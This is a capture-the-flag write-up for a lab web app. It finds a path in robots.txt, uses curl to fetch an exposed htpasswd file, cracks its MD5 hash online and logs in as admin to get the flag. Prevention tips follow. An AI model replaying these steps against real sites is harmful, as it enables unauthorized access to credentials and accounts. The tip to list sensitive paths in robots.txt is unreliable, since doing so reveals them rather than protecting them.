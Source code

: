 # Description

If we visited robots.txt we get the following paths

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

Following the path whatever we get the follwing output

```
Index of /whatever/

../
htpasswd                                           29-Jun-2021 18:09                  38
```

Using curl to get the content of htpassd

```bash
*[main][/goinfre/mashad/projects/darkly]$ curl http://10.12.177.95/whatever/htpasswd
root:437394baff5aa33daa618be47b75cb49
*[main][/goinfre/mashad/projects/darkly]$ 
```

It's seems that its a hashed password, we going to use https://crackstation.net to try and crack the password.

Crackstation results was as bellow:

**437394baff5aa33daa618be47b75cb49 - qwerty123@ - Possible algorithms: MD5**

After digging more into hidden directories we found a login pannel for admin in the following url: http://10.12.177.95/admin/

Using curl to POST the username and password and get the flag

```bash
*[main][/goinfre/mashad/projects/darkly]$ curl -X POST -d "username=root&password=qwerty123@&Login=Login" http://10.12.177.95/admin/

<center><h2 style="margin-top:50px;">The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff </h2><br/><img src="../images/whoami.gif" alt=""><br /><br /><img src="../images/congratz.jpg" alt=""></center>%

*[main][/goinfre/mashad/projects/darkly]$ 
```

# Prevention
- **Disallow Sensitive Paths:** Update your robots.txt file to disallow access to sensitive directories like /whatever and /.hidden. This will prevent search engines and web crawlers from indexing and accessing these paths.

- **Protect Sensitive Files:** If possible, move sensitive files like htpasswd outside of the web server's public directory. This prevents direct access to such files through the web browser.

- **Hash and Salt Passwords:** Ensure that user passwords are hashed and salted before storing them in the database. This makes it significantly harder for attackers to retrieve the original passwords even if they manage to access the hashed versions.
